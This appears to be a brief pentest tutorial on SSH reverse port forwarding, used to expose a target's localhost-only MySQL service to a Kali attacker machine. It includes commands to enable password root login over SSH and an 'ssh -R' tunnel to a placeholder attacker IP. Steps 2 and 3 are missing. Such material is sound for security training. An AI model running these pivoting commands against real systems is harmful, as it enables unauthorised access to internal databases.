




Linux target (ssh)
Example for Mysql Reverse Port
Forwarding1. Find port listening for localhost(127.0.0.1), cannot be accessed externally
targetSystem@linux:~$ netstat -nl
4. Enable ssh on the
attacker machine
Attacker@kali:/# systemctl start ssh.socket
5.
Enable ssh root
login with password on the attacker machine
Attacker@kali:/# gedit /etc/ssh/sshd_config
1) Find the line
#PermitRootLogin prohibit-password
2) Replace it with:
PermitRootLogin yes
3) Save and close the file.
6. Now we can start the
Reverse Port
Forwarding from the TargetSystem
targetSystem@linux:~$ ssh -R <attackerPort>:127.0.0.1:<serviceTargetSystemPort> root@<attackerIp>
7. From our AttackerMachine
run mysql and connect to <attackerPort> on the local machine, using the root user
Attacker@kali:/# mysql -u root -h 127.0.0.1 -P <attackerPort>
